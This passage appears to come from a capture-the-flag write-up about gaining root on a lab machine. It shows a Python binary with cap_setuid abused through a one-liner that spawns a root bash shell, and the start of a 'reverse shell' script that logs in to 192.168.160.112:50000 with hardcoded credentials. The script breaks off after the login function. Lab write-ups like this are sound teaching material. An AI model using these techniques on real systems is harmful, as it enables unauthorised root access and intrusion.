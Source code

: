 We could run a special type of Python. I wanted to see what was different about this binary, so I used `getcap` and saw that this can run `setuid`:

```
bob@cookiecutter:~$ getcap /usr/bin/admin_python3
/usr/bin/admin_python3 = cap_setuid+ep
```

This means we can make ourselves root using this one-liner:

```python
import os;os.setuid(0);os.system("/bin/bash")
```

<figure><img src="../../../.gitbook/assets/image (3890).png" alt=""><figcaption></figcaption></figure>

## Scripts

Final script for reverse shell:

```python
#!/usr/bin/python3

import socket
import base64
import sys

HOST="192.168.160.112"
PORT=50000

s = None
def connect():
	global s
	s = socket.socket()
	s.connect((HOST,PORT))

username = b"bob"
password = b"cookie1"


# Example:
# 1\x00admin\x00password\x00
def login():
	connect()
	buf = b""
	buf += b"1"
	buf += b"\x00"
	buf += username
	buf += b"\x00"
	buf += password
	buf += b"\x00"

	s.send(buf)
	r = s.recv(4096)
	data = r.split(b"\x00")

	s.close()
```